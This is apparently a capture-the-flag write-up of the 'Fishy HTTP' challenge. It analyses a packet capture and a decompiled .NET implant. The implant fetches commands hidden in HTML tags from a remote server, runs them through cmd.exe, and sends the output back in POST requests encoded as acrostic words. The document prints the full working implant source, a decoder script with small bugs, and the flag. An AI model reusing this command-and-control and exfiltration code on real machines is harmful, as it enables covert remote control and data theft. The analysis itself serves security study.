# Fishy HTTP

## Scenario

I found a suspicious program on my computer making HTTP requests to a web server. Please review the provided traffic capture and executable file for analysis. (Note: Flag has two parts)

## Given artefacts

A packet capture file and a Windows PE 32+ executable

## Start with the pcap file

Skimming through the file, it mainly consists of HTTP, and following the first TCP streams yield a weird poem (dunno it's a poem or not):



Following the next TCP stream, the eccentric poem continues, but I realize something strange here, this is not a real web server:



It is just a simulated server, like we run python3 -m http.server [port] on our terminal to make it a temporary HTTP server. What is more, the first letter of each word in all POST requests seems to form a base64 string!. The pcap file is rather short, we can manually extract them and let a simple Python script does the concatenation:



Copy to cyberchef:



Seem like the result of `whoami` command, but let do the same with the remaining POST requests:







So these POST request are results of command executed by attacker, and it also contains the second part of the flag. So where is the first one ? Well, naturally it should lie in the command, we will need to figure out how the attacker sends commands to the server

We see that all requests are made by `10.142.0.4`, GET and POST request following each other, POST requests contain result, so the command must lie in the GET request!


## Shift to the executable program

Remember that we are also given an executable. Using dotPeek to decompile it, we will find a goldmine:

```c#
// Decompiled with JetBrains decompiler
// Type: MyNamespace.Program
// Assembly: MyProject, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null
// MVID: B27B6257-A096-4F55-90CC-CD4E6AC42C56
// Assembly location: MyProject.dll inside C:\CTF_Workspace\BKSEC\Chall-Easy\FishyHTTP\smphost.exe)

using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.IO;
using System.Net.Http;
using System.Text;
using System.Text.RegularExpressions;
using System.Threading.Tasks;

#nullable enable
namespace MyNamespace;

internal class Program
{
  private static Dictionary<string, string> tagHex;

  private static async Task Main(string[] args)
  {
    if (args.Length < 2)
    {
      Console.WriteLine("Usage: program.exe <IPAddress> <Port>");
    }
    else
    {
      string url = $"http://{args[0]}:{args[1]}/";
      string[] strArray = Encoding.UTF8.GetString(Convert.FromBase64String("YXBwbGUKYWlycGxhbmUKYW50CmF2b2NhZG8KYXJyb3cKYXN0cm9uYXV0CmFsYXJtCmFuY2hvcgphY3JvYmF0CmFsYnVtCmJhbmFuYQpiYWxsCmJvb2sKYnV0dGVyZmx5CmJpcmQKYmVhY2gKYmFza2V0CmJpY3ljbGUKYm90dGxlCmJlYXIKY2F0CmNhcgpjYWtlCmNsb3VkCmNhbmRsZQpjb21wdXRlcgpjb29raWUKY2FtZXJhCmNsb3duCmNhc3RsZQpkb2cKZHVjawpkb29yCmRyYWdvbgpkb2xwaGluCmRpYW1vbmQKZHJ1bQpkZXNrCmRvbGwKZGlub3NhdXIKZWxlcGhhbnQKZWdnCmVhZ2xlCmVhcnRoCmVudmVsb3BlCmVuZ2luZQplbGYKZXJhc2VyCmVzY2FsYXRvcgplYXNlbApmaXNoCmZsb3dlcgpmcm9nCmZpcmUKZm94CmZsYWcKZnJ1aXQKZmVhdGhlcgpmZW5jZQpmbGFzaGxpZ2h0CmdyYXBlCmd1aXRhcgpnbG9iZQpnYW1lCmdvYXQKZ2hvc3QKZ2xhc3NlcwpnYXJkZW4KZ2VtCmdpZnQKaG91c2UKaGF0CmhlYXJ0CmhvcnNlCmhhbW1lcgpoZWxpY29wdGVyCmhvbmV5CmhhbWJ1cmdlcgpob3JuCmhlZGdlaG9nCmljZS1jcmVhbQppZ2xvbwppc2xhbmQKaW5rCmluc2VjdAppcm9uCmljZQppZ3VhbmEKaW52aXRhdGlvbgppbnN0cnVtZW50CmphY2tldApqZWxseWZpc2gKamFyCmp1bmdsZQpqdWljZQpqaWdzYXcKanVtcApqZXdlbApqZXQKamFjay1vLWxhbnRlcm4Ka2FuZ2Fyb28Ka2l0ZQprZXkKa2luZwprb2FsYQprYXlhawprZXR0bGUKa2l0Y2hlbgprZXlib2FyZAprbmlnaHQKbGVtb24KbGlvbgpsYWRkZXIKbGFtcApsZWFmCmxpZ2h0aG91c2UKbG9nCmxhcHRvcApsb2NrCmxhZHlidWcKbWFuZ28KbW9ua2V5Cm1vb24KbW91bnRhaW4KbXVzaHJvb20KbW91c2UKbWFpbGJveAptYWduZXQKbWljcm9waG9uZQptYXNrCm5vdGVib29rCm5lc3QKbmFpbApuZXQKbm9zZQpudXQKbmluamEKbmVja2xhY2UKbmV3c3BhcGVyCm5vb2RsZXMKb3JhbmdlCm93bApvY2VhbgpvY3RvcHVzCm9uaW9uCm92ZW4Kb3lzdGVyCm90dGVyCm9saXZlCm9ybmFtZW50CnBpbmVhcHBsZQpwZWFyCnBpenphCnB1bXBraW4KcGVuZ3VpbgpwZW5jaWwKcGxhbmUKcHlyYW1pZApwYW5kYQpwb3Bjb3JuCnF1ZWVuCnF1aWx0CnF1ZXN0aW9uCnF1aWxsCnF1YWlsCnF1aXZlcgpxdWFydHoKcXVldWUKcXVhcnRlcmJhY2sKcXVhZHJpbGF0ZXJhbApyYWJiaXQKcmFpbmJvdwpyb2JvdApyb2NrZXQKcmluZwpyYWNjb29uCnJ1bGVyCnJvc2UKcmFkaW8KcnVnCnN0YXIKc3VuCnNuYWtlCnNvY2sKc3Bvb24Kc3F1aXJyZWwKc2hpcApzbm93bWFuCnNwaWRlcgpzYW5kd2ljaAp0YWJsZQp0cmVlCnRpZ2VyCnR1cnRsZQp0cmFpbgp0ZWxlc2NvcGUKdG9vdGgKdHJ1bXBldAp0b21hdG8KdGFtYm91cmluZQp1bWJyZWxsYQp1bmljb3JuCnVuaWZvcm0KdXRlbnNpbAp1bml2ZXJzZQp1bmljeWNsZQp1a3VsZWxlCnVuZGVyZ3JvdW5kCnVybgp1cGhvbHN0ZXJlcgp2aW9saW4Kdm9sY2Fubwp2YW4KdmVzdAp2ZWdldGFibGUKdmluZQp2YWN1dW0KdmFzZQp2dWx0dXJlCnZpZGVvCndhdGVybWVsb24Kd2hhbGUKd29ybQp3YWdvbgp3YW5kCndpbmRtaWxsCndhdGNoCndpbmcKd2FsbGV0CndoZWVsCnh5bG9waG9uZQp4LXJheQp4ZWJlYwp4eWxpdG9sCnhlbm9uCnhhbnRoYW4KeGVyb3Npcwp4ZXJvcGh5dGUKeHlsdWxvc2UKeG1hcwp5ZWxsb3cKeWFjaHQKeW9ndXJ0CnlvbGsKeWFrCnlhd24KeXVjY2EKeW9kZWwKeXVydAp5ZXcKemVicmEKemlwcGVyCnpvbwp6aWd6YWcKemVybwp6b21iaWUKemFwCnplbGRhCnpvbmUKemVu")).Trim().Split(new string[3]
      {
        "\r\n",
        "\n",
        "\r"
      }, (StringSplitOptions) 1);
      Dictionary<string, List<string>> wordsDict = new Dictionary<string, List<string>>();
      foreach (string str1 in strArray)
      {
        char ch = str1[0];
        if (wordsDict.ContainsKey(ch.ToString()))
        {
          wordsDict[ch.ToString()].Add(str1.Substring(1));
        }
        else
        {
          Dictionary<string, List<string>> dictionary = wordsDict;
          string str2 = ch.ToString();
          List<string> stringList = new List<string>();
          stringList.Add(str1.Substring(1));
          dictionary[str2] = stringList;
        }
      }
      while (true)
        await SendRequest();

      string EncodeData(string data)
      {
        string base64String = Convert.ToBase64String(Encoding.UTF8.GetBytes(data));
        StringBuilder stringBuilder = new StringBuilder();
        Random random = new Random();
        foreach (char ch in base64String)
        {
          if (wordsDict.ContainsKey(ch.ToString().ToLower()))
          {
            string str = wordsDict[ch.ToString().ToLower()][random.Next(0, 10)];
            stringBuilder.Append(ch);
            stringBuilder.Append(str);
            stringBuilder.Append(" ");
          }
          else
          {
            stringBuilder.Append(ch);
            stringBuilder.Append(" ");
          }
        }
        return stringBuilder.ToString();
      }

      async Task SendRequest()
      {
        try
        {
          using (HttpClient client = new HttpClient())
          {
            client.Timeout = TimeSpan.FromSeconds(180.0);
            HttpResponseMessage async = await client.GetAsync(url);
            async.EnsureSuccessStatusCode();
            string str = DecodeData(await async.Content.ReadAsStringAsync());
            using (Process process = new Process())
            {
              process.StartInfo.FileName = "cmd.exe";
              process.StartInfo.Arguments = "/c " + str;
              process.StartInfo.RedirectStandardOutput = true;
              process.StartInfo.UseShellExecute = false;
              process.Start();
              process.WaitForExit();
              string data = ((TextReader) process.StandardOutput).ReadToEnd();
              if (string.op_Equality(data, ""))
                data = "succeed";
              FormUrlEncodedContent content = new FormUrlEncodedContent((IEnumerable<KeyValuePair<string, string>>) new KeyValuePair<string, string>[2]
              {
                new KeyValuePair<string, string>("Name", "Test User"),
                new KeyValuePair<string, string>("feedback", EncodeData(data))
              });
              (await client.PostAsync(url + "submit_feedback", (HttpContent) content)).EnsureSuccessStatusCode();
            }
          }
        }
        catch (Exception ex)
        {
          Console.WriteLine("Error: " + ex.Message);
        }
      }
    }

    static string DecodeData(string data)
    {
      StringBuilder stringBuilder = new StringBuilder();
      foreach (Match match in new Regex("<(\\w+)[\\s>]", (RegexOptions) 16 /*0x10*/).Matches(((Capture) new Regex("<body>(.*?)</body>", (RegexOptions) 16 /*0x10*/).Match(data).Groups[1]).Value.Split(new string[1]
      {
        Environment.NewLine
      }, (StringSplitOptions) 1)[0]))
      {
        if (((Group) match).Success)
        {
          GroupCollection groups = match.Groups;
          if (string.op_Inequality(((Capture) groups[1]).Value, "li"))
            stringBuilder.Append(Program.tagHex[((Capture) groups[1]).Value]);
        }
      }
      return HexStringToBytes(stringBuilder.ToString());
    }

    static string HexStringToBytes(string hex)
    {
      byte[] numArray = new byte[hex.Length / 2];
      for (int index = 0; index < hex.Length; index += 2)
        numArray[index / 2] = Convert.ToByte(hex.Substring(index, 2), 16 /*0x10*/);
      return Encoding.ASCII.GetString(numArray);
    }
  }

  static Program()
  {
    Dictionary<string, string> dictionary = new Dictionary<string, string>();
    dictionary.Add("cite", "0");
    dictionary.Add("h1", "1");
    dictionary.Add("p", "2");
    dictionary.Add("a", "3");
    dictionary.Add("img", "4");
    dictionary.Add("ul", "5");
    dictionary.Add("ol", "6");
    dictionary.Add("button", "7");
    dictionary.Add("div", "8");
    dictionary.Add("span", "9");
    dictionary.Add("label", "a");
    dictionary.Add("textarea", "b");
    dictionary.Add("nav", "c");
    dictionary.Add("b", "d");
    dictionary.Add("i", "e");
    dictionary.Add("blockquote", "f");
    Program.tagHex = dictionary;
  }
}
```

Notice the massive base64 string, if we decode it, we get a list of words like apple, airplane,... which form the weird poem we found earlier. Then it create a dictionary mapping each beginning letter with its full word, for example, a maps to apple, airplane,.., b maps to basket... and so on. 

Move to the EncodeData function, it first convert data to base64, then map each character of that base64 string to a random value of it in the above dictionary, if the character does not exist in the dictionary, leave as it is.

Continue with DecodeData function, It searches for the <body> tags and grabs the very first line of text inside them, then uses a Regex (<(\w+)[\s>]) to extract every single HTML tag on that line, ignores <li> tags, for every other tag, it looks it up in the tagHex dictionary to get a hexadecimal character.

The SendRequest function can be considered main dish here, it first sends a HTTP GET request to the attacker's server, then takes the HTML response and passes to DecodeData function. After that, it opens a hidden cmd /c and run the decoded command, captures the terminal output and passes to EncodeData function and sends it back to the attacker's server via a POST request to /submit_feedback. **This is exactly what we observed in the pcap file !**

Now let's try to decode the command using a python script:

```python
import re
import binascii

TAG_HEX_MAP = {
    "cite": "0", "h1": "1", "p": "2", "a": "3",
    "img": "4", "ul": "5", "ol": "6", "button": "7",
    "div": "8", "span": "9", "label": "a", "textarea": "b",
    "nav": "c", "b": "d", "i": "e", "blockquote": "f"
}

def decrypt(data):
    match = re.search(r'<body>(.*?)</body>', html_data, re.IGNORECASE | re.DOTALL)
    if not match:
        return "[-] Error: No <body> tag found in the provided text."
    
    content = match.group(1)
    
    tags = re.findall(r'<(\w+)[\s>]', content)
    
    hex_string = ""
    for tag in tags:
        tag_lower = tag.lower()
        if tag_lower != "li":  
            if tag_lower in TAG_HEX_MAP:
                hex_string += TAG_HEX_MAP[tag_lower]
                
    try:
        decoded_bytes = binascii.unhexlify(hex_string)
        decoded_command = decoded_bytes.decode('ascii', errors='ignore')
        return f" Decrypted Command: {decoded_command}"
```

Now use it to get the commands:









That's all, we get the flag.

`Flag: HTB{Th4ts_d07n37_h77P_s73417hy_revSHELL}`